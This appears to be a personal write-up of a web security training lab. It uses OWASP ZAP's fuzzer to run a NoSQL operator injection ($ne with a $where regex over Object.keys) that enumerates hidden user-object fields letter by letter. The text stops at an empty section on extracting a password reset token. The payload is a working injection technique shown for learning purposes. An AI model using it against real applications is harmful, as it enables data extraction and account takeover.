 # Lab: Exploiting NoSQL operator injection to extract unknown fields [OWASP Zed Attack Proxy]

## Brute-forcing to identify all the fields on the user object

> Burp Suite Community edition's __Intruder__ being useless brought us here. 

Attempt a log in with credentials `carlos:invalid`. Find the `POST /login` request, right-click it and select "Open in Requester Tab". Right-click it there as well and select "Fuzz..."

A Fuzzer opens up, click "Edit" replace the request body with the following:

```json
{"username":"carlos","password":{"$ne":"invalid"}, "$where":"Object.keys(this)[1].match('^.{0}a.*')"}
```

Click "Save". First select `1` at `..(this)[1]..`, click "Add..." below Fuzz Locations, click "Add..." in the new window and then select "Numberzz" from the dropdown. Enter From `1` to `9`. Click "Add" and then "OK". 

Now add another Fuzz location the same way for `0` at `{0}`. Again, select "Numberzz" and input From `0` to `20`. 

Now add another Fuzz location the same way for `a` at `{0}a.*`. Select "Regex" and add the following regex `[a-zA-Z0-9]`. You can generate preview to make sure it's correct. 

Start Fuzzer! Could this have been any more beautiful?


| param 1  | param 2  | param 3  | param 4  |
|----------|----------|----------|----------|
| 1, 0, u  | 2, 0, p  | 3, 0, e  | 4, 0, f  |
| 1, 1, s  | 2, 1, a  | 3, 1, m  | 4, 1, o  |
| 1, 2, e  | 2, 2, s  | 3, 2, a  | 4, 2, r  |
| 1, 3, r  | 2, 3, s  | 3, 3, i  | 4, 3, g  |
| 1, 4, n  | 2, 4, w  | 3, 4, l  | 4, 4, o  |
| 1, 5, a  | 2, 5, o  | .......  | 4, 5, t  |
| 1, 6, m  | 2, 6, r  | .......  | 4, 6, P  |
| 1, 7, e  | 2, 7, d  | .......  | 4, 7, w  |
| .......  | .......  | .......  | 4, 8, D  |

Took it about 20 minutes.

## Brute-forcing to extract the value of Carlos's password reset token


